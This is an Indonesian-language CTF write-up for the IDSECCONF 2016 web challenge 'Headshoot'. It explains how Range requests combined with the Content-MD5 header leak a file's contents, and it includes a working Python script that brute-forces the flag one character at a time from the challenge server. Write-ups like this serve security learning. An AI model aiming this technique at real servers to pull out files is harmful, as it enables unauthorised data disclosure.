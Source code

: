```yaml
---
layout: post
title: "Writeup Idsecconf CTF 2016 : Headshoot - 200"
description: "Writeup Idsecconf CTF 2016 Online"
headline: 
modified: 2016-08-29
category: idsecconf
tags: [idsecconf,ctf,web]
imagefeature: /images/idsecconf.jpg
mathjax: 
chart: 
comments: true
featured: false
---
```


### Problem :

`http://139.59.245.67:8000/`

### Solusi :

Di berikan sebuah website dan lokasi flag di beritahu ada di `http://139.59.245.67:8000/flag.txt`
namun kita hanya bisa menggunakan Method `OPTIONS,HEAD` 

menurut w3 protocol : `The HEAD method is identical to GET except that the server MUST NOT return a message-body in the response. `

`Content-MD5, A Base64-encoded binary MD5 sum of the content of the request body, Content-MD5: Q2hlY2sgSW50ZWdyaXR5IQ== Obsolete`

`echo 'T/JeCTIbbkLdlRS/YqTvHw==' | base64 -d | xxd`

![Headshoot MD5](/images/headshoot_md5.png)

ditemukan md5 `4ff25e09321b6e42dd9514bf62a4ef1f` tidak bisa di decrypt secara online. dan setelah
surving di wikipedia ternyata kita bisa menambahkan header Range: bytes 0-1. dan akan bisa mengatur Response header
dengan menambahkan range kita bisa melakukan bruteforce terhadap MD5 nya perkarakter.

```python
import requests
import hashlib
import string
import binascii


url = 'http://139.59.245.67:8000/flag.txt'

flag = ''


while True:
    headers = {'Range': 'bytes=0-'+str(len(flag)+1)}
    r = requests.head(url, headers=headers)
    md5 = r.headers.get('Content-MD5')
    md5 = binascii.a2b_base64(md5)
    md5 = binascii.hexlify(md5)
    print md5
    for c in string.printable:
        newflag = flag+c
        newmd5 = hashlib.md5(newflag).hexdigest()
        if newmd5==md5:
            flag+=c
            print flag
            break    

```

dan di dapatkan flag : `flag{HaveYouEverSeenMD5ContentHeaderBeforeThis?}`